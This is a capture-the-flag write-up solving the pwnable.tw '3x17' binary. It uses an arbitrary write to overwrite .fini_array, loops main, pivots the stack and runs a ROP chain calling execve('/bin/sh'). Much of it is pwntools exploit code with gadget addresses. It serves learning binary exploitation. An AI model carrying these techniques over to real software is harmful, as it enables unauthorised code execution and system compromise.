# pwnable.tw - 3x17

Original challenge link: https://pwnable.tw/challenge/#32

You can as well download the file in my repo: [3x17.zip](3x17.zip)

And now, let's start!

# 1. Find bug

First, we check the basic information of challenge file:

```bash
$ file 3x17
ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3, stripped

$ checksec 3x17
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This is a 64-bit stripped file with just `NX enabled`. Next, let's decompile the file with ghidra to get the flow.

We can see there is just a function called `entry`. In `entry`, it acts like `__libc_start_main` and calls the function at `0x401b6d` so we will rename that function to `main`:





By running the program, we know that the function `FUN_00446ec0` acts like `write` and function `FUN_00446e20` acts as `read`. The other function in main is `FUN_0040ee70` which will take the address and then do something with it so we will rename it to `parse_addr`.

Reading the code of `parse_addr` may be awful so let's debug with gdb-gef and input various style to see what can we get. First, let's set a breakpoint after the function `parse_addr`:

```gdb
gef➤  x/30i 0x401b6d    # main
   ...
   0x401be8:    mov    eax,0x0
   0x401bed:    call   0x40ee70
   0x401bf2:    cdqe   
   0x401bf4:    mov    QWORD PTR [rbp-0x28],rax

gef➤  b*0x401bf2
Breakpoint 1 at 0x401bf2
```

And let's run it and input various things from digit to character to see what will it return after executing `parse_addr` (The return value will be put in `rax`):







Wait! Can you see the value `0x4d2` in rax? `0x4d2` in decimal is `1234` which equal with our input. So we can conclude that the function `parse_addr` is similar to `atol` (You can try to input a large value or a negative number to get it).

And after it `atol` our input, it will `read` from user input to that address once and then exit. That means we can change any place just in case that address is writable.

# 2. Idea

At first, because we can change just 3 address from `<our address>`, `<our address>+0x8` and `<our address>+0x10` in one input, the only approach is to analize the function after `main` return (we can call it `exit` function). Using gdb, we can find the function which acts as `exit` and then analize it. 

Although I can see that it executes a function which we can change that function to the address we want to execute. But without libc, we don't have `one gadget` and if we make it executes `main` again, it still returns and continues the exit function and then exits the program, or if we make it run from `entry`, it will cause segfault.

So I got stuck from here. I'm sure that we will attack exit_hook or somethings like that but don't know what should we change. I then search gg for writeup and found [this blog](https://drx.home.blog/2019/04/17/pwnable-tw-3x17/), and I learnt a new technique.

The technique is that we can change the `.fini_array`, which is in the writable section, and `exit` will call `__libc_csu_fini` to run 2 destructor functions in `.fini_array` including

- `_do_global_dtors_aux`
- `foo_destructor`

but with a reverse order (call `foo_destructor` and then `_do_global_dtors_aux`). So if we change these 2 function in `.fini_array` to main and the `__libc_csu_fini` function calls `.fini_array` again, we will have a loop of main. With the loop, we don't need to worry about the check in `main` because that global variable is just 1 byte so looping of main will make that global variable back to `0` easily.

In addition, we can as well get the address of `__libc_csu_fini` just by looking at the `entry` again (or `_start` if binary is not stripped) at 2 global variable (not `main`):



The highlighted global variable is `__libc_csu_fini` and the previous is `__libc_csu_init`. 

And with the loop of main, we can make a complete ROPchain and make it execute our ROPchain to get the shell.

Summary:
- Stage 1: Overwrite `.fini_array`
- Stage 2: Get shell with ROPchain

# 3. Exploit

### Stage 1: Overwrite `.fini_array`

So first, in detail, we will change the `foo_destructor` to main so that when program calls `__libc_csu_fini`, it will call `main` again. We also don't want it to exit after `main` is called so we will change `_do_global_dtors_aux` to `__libc_csu_fini` to make sure the `.fini_array` is not changed and make a complete loop of main.

So with the image above, we know the function `__libc_csu_fini` is at `0x402960`. Analize that function and we know the address of `.fini_array` is at `0x4b40f0`:



And with the images above, we know the address of `main` is `0x401b6d`. We know where to write and what to write, let's make a script to overwrite `.fini_array`:

```python
from pwn import *

exe = context.binary = ELF('./3x17', checksec=False)
context.log_level = 'debug'

p = process(exe.path)
# p = remote('chall.pwnable.tw', 10105)

fini_array = 0x4b40f0
libc_csu_fini = 0x0402960
main = 0x401b6d

payload = flat(libc_csu_fini, main)
p.sendafter(b'addr:', f'{fini_array}'.encode())
p.sendafter(b'data:', payload)

p.interactive()
```

And we know it ask for input again:



That's great! Let's move on!

### Stage 2: Get shell with ROPchain

Now, we will need to create our payload first. Our payload will get input from user so that we can input string `/bin/sh` and then, execute syscall `execve` with inputted string to get the shell. Let's find some gadgets:

```bash
$ ROPgadget --binary 3x17 > gadget

$ cat gadget | grep ret | grep ": pop "
0x000000000041e4af : pop rax ; ret
...
0x0000000000401696 : pop rdi ; ret
...
0x0000000000446e35 : pop rdx ; ret
...
0x0000000000406c30 : pop rsi ; ret
...

$ cat gadget | grep ": syscall"
0x00000000004022b4 : syscall
```

That's enough for us. Let's get the address where we can write using gdb:



So let's take `0x000000004b4a00` as a buffer. Our payload will be:

```python
pop_rax = 0x000000000041e4af
pop_rdi = 0x0000000000401696
pop_rdx = 0x0000000000446e35
pop_rsi = 0x0000000000406c30
syscall = 0x00000000004022b4
rw_section = 0x000000004b4a00
read_addr = 0x446e20
payload = flat(
    pop_rdi, 0,
    pop_rsi, rw_section,
    pop_rdx, 8,
    read_addr,
    pop_rax, 0x3b,
    pop_rdi, rw_section,
    pop_rsi, 0,
    pop_rdx, 0,
    syscall
    )
```

Remember to set `context.binary` before using `flat()`. The address `read_addr` is the function `read` we've renamed above.

Now, we will need to write our payload to somewhere so that program can execute. The idea is to do a stack pivot because we can see when it jumps to `__libc_csu_fini`, it will put a address which is writable to the rbp:



So if we can make the program execute `leave ; ret`, the stack will be `0x000000004b40f8` and it will return to the address on that stack. But `0x4b40f8` is the address of `.fini_array+8` so we will want to write our payload after `.fini_array` (which means we will write our payload at `.fini_array+0x10`). So the code will be as follows:

```python
for i in range(0, len(payload), 0x18):
    p.sendafter(b'addr:', f'{fini_array+0x10+i}'.encode())
    p.sendafter(b'data:', payload[i:i+0x18])
```

Let's attach with gdb to check if our payload is inputted correctly or not:



We can see that our payload is inputted correctly.

After we inputted payload, the program will jump back to main and run until the check in main is satisfy, which means it will run until it read from user input. Remember that `.fini_array` after we overwrited look likes:

- `__libc_csu_fini`
- `main`

So after the next input (`main`), it will jump to `__libc_csu_fini`. We first will want to change `__libc_csu_fini` to gadget `leave ; ret` so that we can pivot the stack. 

After `leave` instruction, the program will return back to `main` (we didn't change that, just have change `__libc_csu_fini`) so we will want to change `main` into a `ret` instruction. Overall, we will want to change the `.fini_array` to

- `leave ; ret`
- `ret`

Let's find those 2 gadget or just find the gadget `leave ; ret` and then add `1` because `leave` takes 1 byte:

```bash
$ cat gadget | grep ": leave ; ret"
0x0000000000401c4b : leave ; ret
```

And let's overwrite `.fini_array`:

```python
leave_ret = 0x0000000000401c4b
ret = leave_ret + 1
p.sendafter(b'addr:', f'{fini_array}'.encode())
p.sendafter(b'data:', flat(leave_ret, ret))
```

Let's run and attach with gdb to know if it can run our ROPchain. Stop at the call to a function inside `.fini_array` in `__libc_csu_fini` and check the `.fini_array`:



Aha! We can see the `leave ; ret` gadget. Let's type `si` to see the stack change:



And the program execute `ret` again to jump into our payload. Well, let's make it send the string `/bin/sh\x00` and we can get the shell:

```python
input("Press ENTER to continue...")
p.send(b'/bin/sh\x00')
```

Why I added `input()`? Because with the last input into `main`, we just write `0x10` bytes, `8` bytes left, so if we send it continuously without hesitation, our string `/bin/sh\x00` may input to that 8 bytes left and the payload is corrupted.

Full script: [solve.py](solve.py)

# 4. Get flag

The flag is at `/home/3x17`.

